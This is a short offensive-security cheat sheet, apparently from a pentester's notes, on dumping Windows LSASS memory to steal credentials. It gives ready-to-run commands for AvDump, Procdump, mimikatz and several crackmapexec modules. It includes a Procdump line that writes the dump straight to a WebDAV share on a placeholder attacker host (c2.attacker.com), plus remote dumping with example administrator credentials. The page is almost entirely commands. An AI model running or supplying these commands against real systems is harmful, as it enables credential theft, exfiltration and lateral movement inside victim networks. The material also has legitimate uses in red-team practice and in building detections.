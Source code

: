 ```yaml
---
title: LSASS Dump with 3rd-party tools
---
```


[[notes/windows/lsass-dump]] with various utilities.

With `AvDump.exe` signed by [Avast](https://www.avast.com/).

~~~ bat
tasklist.exe /fi "imagename eq lsass.exe"
.\AvDump.exe --exception_ptr 0 --thread_id 0 --dump_level 1 --min_interval 0 --pid 720 --dump_file %COMPUTERNAME%.log
~~~

With [Procdump](https://download.sysinternals.com/files/Procdump.zip) to remote WebDAV share ([source](https://twitter.com/theluemmel/status/1532236231282769920)).

~~~ bat
.\procdump.exe -accepteula -ma -64 lsass.exe \\c2.attacker.com@80\share\%COMPUTERNAME%.log
~~~

With [[notes/tools/mimikatz]].

~~~ bat
.\mimikatz.exe privilege::debug token::elevate "sekurlsa::logonpasswords full" exit
~~~

Remotely from Linux with [[notes/tools/crackmapexec]].

~~~ bash
crackmapexec smb srv01.corp.com --local-auth -u administrator -p 'passw0rd' -M lsassy
crackmapexec smb srv01.corp.com --local-auth -u administrator -p 'passw0rd' -M nanodump
crackmapexec smb srv01.corp.com --local-auth -u administrator -p 'passw0rd' -M mimikatz
crackmapexec smb srv01.corp.com --local-auth -u administrator -p 'passw0rd' -M procdump
~~~

Other tools:

- `DumpProc.exe` from Check Point Endpoint Protection, resulting dump file couldn't be parsed by `mimikatz` or `pypykatz`
